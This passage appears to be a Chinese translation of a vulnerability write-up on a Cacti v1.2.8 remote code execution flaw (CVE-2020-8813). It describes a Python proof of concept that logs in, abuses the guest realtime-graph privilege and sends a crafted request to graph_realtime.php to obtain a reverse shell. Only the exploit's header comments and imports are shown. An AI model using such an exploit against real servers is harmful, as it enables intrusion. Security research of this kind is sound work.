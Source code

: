 然后将其发送到应用程序以获取以下信息：

![image](../img/81c99cdb7b1647adb5ee0d21c658b5c6.png)

### 完整版的poc

为了自动化利用过程，我编写了一个python代码来利用此漏洞，利用此漏洞将处理登录过程以启用“来宾实时图”特权，然后将生成有效负载并将精心制作的请求发送到“ graph_realtime.php”页面为了获得反向壳。

这是完整的利用代码：

```
#!/usr/bin/python3

# Exploit title: "Cacti v1.2.8 Remote Code Execution"

# Date: 03/02/2020

# Exploit Author: Askar (@mohammadaskar2)

# CVE: CVE-2020-8813

# Vendor Homepage: [https://cacti.net/](https://cacti.net/)

# Version: v1.2.8

# Tested on: CentOS 7.3 / PHP 7.1.33

import requests

import sys

import warnings

from bs4 import BeautifulSoup

from urllib.parse import quote

warnings.filterwarnings(“ignore”, category=UserWarning, module=‘bs4’)

```
